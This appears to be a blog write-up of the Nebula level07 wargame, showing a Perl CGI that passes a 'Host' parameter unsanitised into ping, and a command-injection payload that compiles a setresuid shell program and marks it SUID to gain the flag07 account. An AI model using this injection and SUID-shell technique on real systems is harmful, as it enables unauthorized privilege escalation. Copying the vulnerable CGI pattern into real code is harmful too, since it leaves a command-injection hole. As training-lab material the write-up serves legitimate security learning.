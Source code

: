 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 07"
date: 2011-12-08T06:10:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


This [next challenge](http://exploit-exercises.com/nebula/level07) is a little bit more tricky than some of the previous ones.  There's a lot more code involved, but it's not too bad.

<!-- more -->

In the flag07 home directory, you'll find the configuration for a simple http server, thttpd.conf.  Inside, you'll find that it's running an HTTP server on port 7007 as the flag07 user.  This is where the perl script that is provided comes in.

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
 $host = $_[0];

 print("<html><head><title>Ping results</title></head><body><pre>");

 @output = `ping -c 3 $host 2>&1`;
 foreach $line (@output) { print "$line"; } 

 print("</pre></body></html>");  }  # check if Host set. if not, display normal page, etc  

 ping(param("Host"));
```

You can now browse to this script by going to http://10.1.1.16:7007/index.cgi (assuming your Nebula VM is running on 10.1.1.16).  Unfortunately, since no parameters are being passed, it presents us with the usage of ping. 

```
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
```

The perl script takes a parameter named "Host", and pipes it into the ping command.  Because of how poorly the perl script was written, we can inject more commands in there.  To make it easy, I made a quick HTML document to assist, so I didn't have to do the encoding of spaces and symbols. 

```
<html> <body>
  <form action="http://10.1.1.6:7007/index.cgi" method="get">
   <input name="Host" id="Host" type="text" />
   <input type="submit" />
  </form>
 </body>
</html>
```

Now I can open that html file in my browser of choice, and when I submit, it'll automatically do all the encoding for me, so I can just worry about the injection. 

In addition to the html page, I also modified my level03.c from a prior post, to make it more generic.  I saved this file as /tmp/bash_id.c: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

This modified source file now takes a parameter of the user id you want to impersonate.  I want to impersonate the flag07 user, so I checked out the /etc/passwd file. 

```
level07@nebula:/tmp$ cat /etc/passwd | grep flag07
flag07:x:992:992::/home/flag07:/bin/sh
```

Now I know that flag07 is also user 992. 

I opened the html file that I made, and in the textbox typed:  

```
;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07
```

When I clicked the submit button, it sent the final command of:  

```
ping -c 3 ;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07 2>&1
```

It makes the ping program have incorrect usage, thus ending quickly.  It then compiles my newly written bash_id.c script, and places the executable in the /home/flag07 folder, and marks it executable and SUID.  From here, it was just as simple as executing that program with the 992 parameter, and running "getflag".

```
level07@nebula:/home/flag07$ ./level07 992
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```